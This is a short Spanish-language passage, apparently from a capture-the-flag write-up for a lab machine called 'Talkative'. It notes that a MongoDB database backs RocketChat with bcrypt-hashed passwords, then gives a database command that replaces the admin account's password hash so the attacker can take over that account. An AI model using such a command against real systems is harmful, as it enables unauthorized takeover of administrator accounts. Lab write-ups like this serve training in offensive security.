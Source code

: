 ![1](/assets/img/sample/Talkative/31.png)


Hay un "_id" que nos indica que esta base de datos está siendo utilizada por el servicio RocketChat en el puerto 3000 y las contraseñas almacenadas está en hashes tipo Bcrypt. Por lo que tenemos la posibilidad de cambiar la contraseña del administrador con el siguiente comando:

```terminal
db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
```
